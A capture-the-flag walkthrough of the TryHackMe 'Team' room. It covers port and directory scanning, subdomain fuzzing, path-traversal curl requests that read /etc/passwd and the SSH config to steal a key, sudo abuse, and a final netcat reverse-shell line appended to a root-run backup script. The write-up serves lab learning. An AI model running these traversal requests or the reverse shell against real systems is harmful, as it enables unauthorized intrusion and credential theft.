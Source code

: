 ```yaml
---

title: Walkthrough - Team
published: true
---
```


Security, Boot2Root, Enumeration, Misconfiguration. boot2root machine

[https://tryhackme.com/room/teamcw](https://tryhackme.com/room/teamcw)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.193.39 -vvv``

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- ``sudo nmap -sV -sT -sC -p21,22,80 10.10.193.39``

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the port 80 apache httpd and viewing the source code we find ``Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!`` add to ``/etc/hosts`` and view.

- ``gobuster dir -u http://team.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --no-error -t 100 -x txt,php``

- ``robots.txt`` gives us dale.
- we also find scripts.txt in /scripts/ we find in our goboster scan
- which leads us to ``http://team.thm/scripts/script.old``

```
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit
```
 
- inside the ftp

```
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles 
```


- there is a hint that is telling us to look for a "dev" site that is under construction. 
- I had to use wfuzz for this as gobuster dns scans never returned any results. ``wfuzz -c --hw 977 -u http://team.thm -H "Host: FUZZ.team.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt``

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload            
=====================================================================

000000001:   200        89 L     220 W      2966 Ch     "www"              
000000019:   200        9 L      20 W       187 Ch      "dev"              
000000085:   200        9 L      20 W       187 Ch      "www.dev"          
000000689:   400        12 L     53 W       422 Ch      "gc._msdcs"    
```

- add ``dev.team.thm`` to the ``/etc/hosts`` file in order to view the dev site that is being refrenced.
-  we can access files here with ../ checking ``curl -s http://dev.team.thm/script.php?page=../../../etc/passwd``
- so we have 2 users dale and gyles. lets see if we can get rsa keys

- ``curl -s http://dev.team.thm/script.php?page=php://filter/convert.base64-encode/resource=script.php``
- ``curl -s http://dev.team.thm/script.php?page=../../../etc/group``

and finally we find the ssh key after trying literally everywhere

- ``curl -s http://dev.team.thm/script.php?page=../../../etc/ssh/sshd_config``
- this ssh key has no password so ``chmod 400 dale.rsa`` and ssh in

* * * 

## What is the user flag?

- ``cat user.txt``

* * * 

## What is the root flag?

- ``sudo -l``

```
User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

- we can ``sudo -u gyles /home/gyles/admin_checks``
- and move to gyles by using ``/bin/sh`` 
- upgrade the terminal with ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- ``for d in `echo $PATH | tr ":" "\n"`; do find $d -name "*.sh" 2>/dev/null; done``

```
You can write script: /usr/local/bin/main_backup.sh
```

- ``echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f" >> /usr/local/bin/main_backup.sh``

![](/assets/team01.png)

* * * 

